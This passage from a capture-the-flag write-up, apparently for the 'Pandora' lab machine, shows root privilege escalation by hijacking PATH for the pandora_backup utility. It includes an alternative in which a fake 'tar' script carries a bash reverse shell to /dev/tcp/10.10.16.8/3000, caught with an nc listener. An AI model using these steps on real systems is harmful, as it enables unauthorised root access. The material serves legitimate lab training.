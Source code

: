 Lastly, all we have to do is to exeute /usr/bin/pandora_backup

```
matt@pandora:/tmp$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
root@pandora:/tmp# 
```
### Obtaining root flag

```
root@pandora:/tmp# cat /root/root.txt
<Redacted root flag>
```

## Post-Exploitation
### Privilege Escalation to root using reverse shell payload
An alternative way of obtaining privilege escalation to root is to use the reverse shell payload. Similiarly, we will have to add the current directory to our $PATH variable (Not shown below).

```
matt@pandora:/tmp$ echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.16.8/3000 0>&1'" > tar
matt@pandora:/tmp$ chmod +x tar
matt@pandora:/tmp$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
```

This will then spawn a reverse shell with root privileges.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 3000
listening on [any] 3000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.136] 40566
root@pandora:/tmp# whoami
whoami
root
root@pandora:/tmp# 
```
